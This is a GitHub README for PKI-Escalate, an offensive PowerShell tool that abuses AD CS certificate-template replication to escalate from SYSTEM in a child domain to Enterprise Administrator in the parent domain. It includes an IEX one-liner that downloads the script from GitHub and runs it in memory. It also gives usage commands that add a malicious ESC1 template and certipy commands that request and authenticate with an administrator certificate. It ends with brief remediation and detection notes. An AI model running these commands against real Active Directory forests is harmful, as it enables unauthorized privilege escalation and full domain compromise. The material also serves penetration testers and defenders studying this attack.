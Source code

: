 # PKI-Escalate

## Overview

PKI-Escalate is a tool designed to abuse the overly permissive relationship between CHILD and PARENT domains in regard to their certificate services containers within Active Directory. Modifications at the CHILD domain are propagated up to the PARENT domain, which can lead to the SYSTEM user in the CHILD domain being able to add a malicious certificate template, vulnerable to [ESC1](https://linl.cok), for a user of their choosing. This then gets replicated up to the PARENT domain, and thus, a certificate can be requested against the PARENT DC as any user, including Enterprise Administrators. 

Initially, I read about this technique on Andy Robbins Spectre Ops post - [From DA to EA with ESC5](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c) - which you should definitely check out! It goes into detail about how and why this attack is possible. I've provided a small overview below for more TLDR folks.

- Changes made to the CHILD domain objects related to the certificate service are replicated up to the PARENT domain.
- Certificate Templates are stored in the AD object `CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=DomainName,DC=Tld`.
- Published Certificate Templates, that is, those that are useable, are stored in the `certificateTemplates` value of the `CN=CAName,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=DomainName,DC=Tld` container.
- Both of these are children of the `CN=Public Key Services,CN=Services,CN=Configuration,DC=DomainName,DC=Tld` container. In the CHILD domain, the SYSTEM user has FULL CONTROL of this container. By default, there is no inheritance to the Certificate Templates and Enrollment Services containers, but with FULL CONTROL, we can add this.
- Changes made to this container by the SYSTEM user in the CHILD domain will be replicated up to the PARENT domain!

In essence, this allows us to:
 - Copy an existing, published template and modify it to be vulnerable to ESC1 (Enrolee supplies SAN in the certificate request).
 - Insert this template into the Certificate Templates container, so it is available for publishing.
 - Publish the certificate, allowing an arbitrary user in the CHILD domain to request certificates as any domain user in the parent domain.
 - Escalate from SYSTEM in the CHILD domain to Enterprise Administrator in the PARENT domain 😊

Vadims Podāns ([@Crypt32](https://twitter.com/Crypt32)) then provided the [method](https://www.pkisolutions.com/escalating-from-child-domains-admins-to-enterprise-admins-in-5-minutes-by-abusing-ad-cs-a-follow-up/) to perform the attack in an environment without ADCS installed, which involves installing the ADCS services on the CHILD domain and waiting for it to be replicated up the PARENT.

Both environments have been included for this initial release of the tool, though there are some caveats to be aware of in the [Limitations](https://github.com/heartburn-dev/PKI-Escalate#Limitations) section.

## Installation

PKI-Escalate is provided as a simple PowerShell script which can be imported:

```powershell
Import-Module .\PKI-Escalate.ps1
```

As with most things, it can also be loaded remotely into memory:
```powershell
IEX((New-Object System.Net.WebClient).downloadString('https://raw.githubusercontent.com/heartburn-dev/PKI-Escalate/master/PKI-Escalate.ps1))
```

## Usage Instructions

To escalate the user GANON and add a malicious certificate template called BADBOY:
```powershell
Invoke-Escalation -Username GANON -TemplateName BADBOY 
```

To escalate the user GANON and add a malicious certificate template called BADBOY to a domain without ADCS installed:
```powershell
Invoke-Escalation -Username GANON -TemplateName BADBOY -InstallAdcs -CAName NewCA
```

To remove a template that was installed using the exploit:
```powershell
Clear-Template -TemplateName BADBOY -CAName NewCA
```

Once exploited, consider using either Certipy or Certify to abuse the new template:
```bash
# Check the vulnerable templates - If LDAPs is properly configured then the scheme is not necessary
certipy find -vulnerable -scheme ldap -u ganon -p Password1 -dc-ip 192.168.55.25

# Request a certificate as the administrator user in the parent domain
certipy req -username ganon@chasm.dc01.hyrule.local -ca 'HYRULE-CA' -target HYRULE-ADCS.HYRULE.LOCAL -template BADBOY -upn administrator@HYRULE.LOCAL  -password Password1 -debug

# Authenticate to the parent domain as the administrator
certipy auth -pfx administrator.pfx -dc-ip 192.168.55.5
```

Please consider clicking on the image below to watch a demonstration video:

[![PKI-Escalate Demonstration - Domain Admin to Enterprise Admin](https://img.youtube.com/vi/XtwKvZ-kZRE/0.jpg)](http://www.youtube.com/watch?v=XtwKvZ-kZRE "PKI-Escalate Demonstration - Domain Admin to Enterprise Admin")

Alternatively, a direct link is:

https://www.youtube.com/watch?v=XtwKvZ-kZRE


## OPSEC Considerations

In terms of remediation, I don't have much information on this attack as I believe this functionality is inherent to the way ADCS works within a forest environment. That is to say, replication up and down is a necessity to allow CA functionality across domains. However, removing full control from the SYSTEM user, or disabling inheritance on the `CN=CAName,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=DomainName,DC=Tld` container may stop a TA from being able to enable the certificate. 

A better use of time may be to concentrate on detection. Certificate Template changes are not everyday things that occur in an Active Directory environment and therefore deletions and additions should be closely monitored.

## Limitations

This tool was tested in three lab environments:

- ADCS installed on a dedicated ADCS machine in the PARENT domain;
- ADCS installed on the PARENT Domain Controller;
- ADCS not installed and performed as part of the script.

These were all Windows Server 2019 machines. Further testing is yet to be conducted on larger environments and different setups. For these, it is recommended to perform the attacks manually if the tool fails to handle an error. Please submit a pull request or issue if you encounter problems and I will endeavour to fix it. 

## Errors

During testing, I noted multiple errors and their corresponding reasons:


The exploit completes, but the resulting certificate cannot be used and returns `"KDC_ERROR_CLIENT_NOT_TRUSTED"`. This generally occurred as the ADCS had been installed recently and there was a time delay between the certificates being able to be used for authentication. Please bear this in mind for testing labs!


Similarly, the error `"KDC_ERR_PADATA_TYPE_NOSUPP"` was encountered, also a byproduct of just a recent install. This, I believe, is due to the PARENT DC not yet enrolling for a certificate that allows smartcard logons.


Both these errors should only occur in environments when you are testing and have recently installed the required services. Just give it a few hours and the certificates should be fine to authenticate with after 😊


## TODO List

- [x] Add the ability to completely remove the template rather than just unpublish
- [ ] Create a CSharp version
- [ ] Create BOF version
- [ ] Add handling for multiple CAs being installed
- [ ] Test on 2012/2016/2022
